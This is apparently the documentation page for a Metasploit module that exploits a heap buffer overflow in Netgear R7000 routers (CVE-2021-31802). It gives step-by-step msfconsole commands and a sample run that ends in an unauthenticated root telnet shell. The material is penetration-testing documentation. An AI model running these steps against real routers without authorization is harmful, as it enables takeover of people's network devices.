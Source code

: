 ## Introduction
This module exploits a heap buffer overflow in the `genie.cgi?backup.cgi`
page of Netgear R7000 routers running firmware versions `1.0.11.116` and prior.
Successful exploitation results in unauthenticated attackers gaining
code execution as the `root` user.

The exploit utilizes these privileges to enable the telnet server
which allows attackers to connect to the target and execute commands
as the `admin` user from within a BusyBox shell. Users can connect to
this telnet server by running the command `telnet *target IP*`.


## Vulnerable Application

Netgear R7000 routers running firmware version `1.0.11.116` and earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/admin/http/netgear_r7000_backup_cgi_heap_overflow_rce `
  3. Do: `set RHOSTS <RouterIP>`
  5. Do: `exploit`
  6. Wait for the message about how to connect to the telnet shell to appear.
  7. Connect to the telnet shell by executing `telnet <RouterIP>`
  8. Verify that you now have a BusyBox shell running as the `admin` user.

## Options

## Scenarios

### Netgear R7000 with Firmware Version 1.0.11.116
```
msf6 > use auxiliary/admin/http/netgear_r7000_backup_cgi_heap_overflow_rce
msf6 auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf6 auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) > show options

Module options (auxiliary/admin/http/netgear_r7000_backup_cgi_heap_overflow_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf6 auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) > run
[*] Running module against 192.168.1.1

[*] Executing automatic check (disable AutoCheck to override)
[*] Router is a NETGEAR router (R7000)
[+] The target is vulnerable.
[*] Sending 10th and final packet...
[*] If the exploit succeeds, you should be able to connect to the telnet shell by running: telnet 192.168.1.1
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) >
```

And in a separate terminal shell:

```
 ~/git/metasploit-framework │ CVE-2021-31802 !1  telnet 192.168.1.1                                                ✔ │ 2.7.2 Ruby
Trying 192.168.1.1...
telnet: Unable to connect to remote host: Connection refused
 ~/git/metasploit-framework │ CVE-2021-31802 !2  telnet 192.168.1.1                                              1 х │ 2.7.2 Ruby
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.


BusyBox v1.7.2 (2020-12-21 13:01:11 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# uname -a
Linux R7000 2.6.36.4brcmarm+ #30 SMP PREEMPT Mon Dec 21 12:35:01 CST 2020 armv7l unknown
# id
uid=0(admin) gid=0(root)
#
```



